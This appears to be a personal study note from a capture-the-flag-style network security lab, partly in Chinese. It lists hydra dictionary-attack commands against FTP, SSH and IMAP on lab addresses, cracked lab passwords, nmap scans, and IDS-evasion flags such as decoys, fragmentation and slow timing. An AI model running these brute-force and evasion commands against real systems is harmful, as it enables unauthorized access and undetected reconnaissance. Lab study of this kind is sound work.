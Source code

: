 	--> Man-in-the-Middle (MITM) Attack
		--> ETTERCAP : https://www.ettercap-project.org/
		--> bettercap : https://www.bettercap.org/
		
	--> Password Attack (Authentication Attack)
		--> 單字表 : /usr/share/wordlists/rockyou.txt
		-->  hydra -l username -P wordlist.txt server (IP 位址) service (發動字典攻擊)
			--> hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.126.186 ftp
			--> hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.126.186
			--> hydra -l frank -P /usr/share/wordlists/rockyou.txt 10.10.126.186 ssh
			--> -s PORT 非預設連接埠 | -V或者-vV 詳細信息 | -t n 平行連接數。| -d 調試
			--> hydra -l lazie -P /usr/share/wordlists/rockyou.txt 10.10.126.186 imap
		--> hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.123.96:10021 
## Network Security Challenge
	--> sudo nmap -sS -T5 10.10.123.96 
	--> highest port under 10000 : -p1-10000 
	--> common above 10,000 : -p- 
	--> How many TCP ports are open : -sT
	--> HTTP server header: 
		--> sudo nmap -sC -sV 10.10.123.96 -p80
		--> sudo namp -sV --script=http-headers -p80
	--> SSH server header : sudo nmap -sC -sV  10.10.123.96 -p22
	--> version of the FTP server : -sV
	
	--> ftp 10.10.123.96:10021 
	--> hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.123.96:10021
		--> login:eddie   password: jordan
	--> hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.123.96:10021
		--> login: quinn   password: andrea
	
	--> avoid being detected by the IDS
		--> 減速 : 
			--> --max-parallelism--min-rtt-timeout--scan-delay
			--> -T paranoid 選項使 Nmap 一次只發送一個探測 
			--> -T sneaky 探測之間僅等待 15 秒
			--> --scan-delay 1075ms
		--> 分片資料包 : 
			--> -f | -ff
		--> 跨網路分散探測，而不是連續掃描主機
			--> 10.0.0.2、.3、.4 和 .5 類似的資料包 
			--> -D 10.10.0.1,10.10.0.2,ME 10.10.157.59
		--> -sN NULL 
			

	
	
	
	

